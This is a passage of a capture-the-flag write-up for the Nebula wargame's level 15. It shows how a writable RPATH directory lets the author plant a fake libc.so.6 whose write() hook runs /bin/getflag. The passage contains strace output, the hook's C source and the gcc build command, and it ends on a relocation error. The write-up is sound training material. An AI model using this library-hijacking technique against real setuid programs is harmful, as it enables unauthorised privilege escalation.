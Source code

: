 
As you can see the dynamic linker tries to load the `libc` from the directory `/var/tmp/flag15/`. This is a very unusual 
path and a quick check reveals that this directory is owned by user `level15`, which means we can write to it.

	:::bash
	level15@nebula:/home/flag15$ ls -dl /var/tmp/flag15/
	drwxrwxr-x 1 level15 level15 60 Oct  4 13:59 /var/tmp/flag15/

After having tried some paths in `/var/tmp/flag15/`, the dynamic linker finally finds it libc in 
`/lib/i386-linux-gnu/libc.so.6` and loads it into memory:

	:::bash
	open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY) = 3
	read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0p\222\1\0004\0\0\0"..., 512) = 512

The basic idea is to create our own libc and patch the `puts()` function that is used.
As we can see in the strace output, the string `strace it!` is written with the `write()` function
call at the end.

What if we could patch the `write()` system call?

Let's try it. I created the following C program:

	:::C
	#include <stdlib.h>
	#include <stdio.h>

	#define _GNU_SOURCE

	int write(int fd, const char* buf) {
		if (strcmp(buf, "strace it!\n") == 0) {
			printf("Inside hook!\n");
			system("/bin/getflag >> /tmp/flagged");
		}
		return 0;
	}

and issued the following commands:

	:::bash
	level15@nebula:/home/flag15$ cat /tmp/write.c
	#include <stdlib.h>
	#include <stdio.h>

	#define _GNU_SOURCE

	int write(int fd, const char* buf) {
		if (strcmp(buf, "strace it!\n") == 0) {
			printf("Inside hook!\n");
			system("/bin/getflag >> /tmp/flagged");
		}
		return 0;
	}
	level15@nebula:/home/flag15$ gcc -Wall -fPIC -shared -o /var/tmp/flag15/libc.so.6 /tmp/write.c 
	/tmp/write.c: In function ‘write’:
	/tmp/write.c:7:2: warning: implicit declaration of function ‘strcmp’ [-Wimplicit-function-declaration]
	level15@nebula:/home/flag15$ ./flag15 
	./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by ./flag15)
	./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	./flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
	./flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
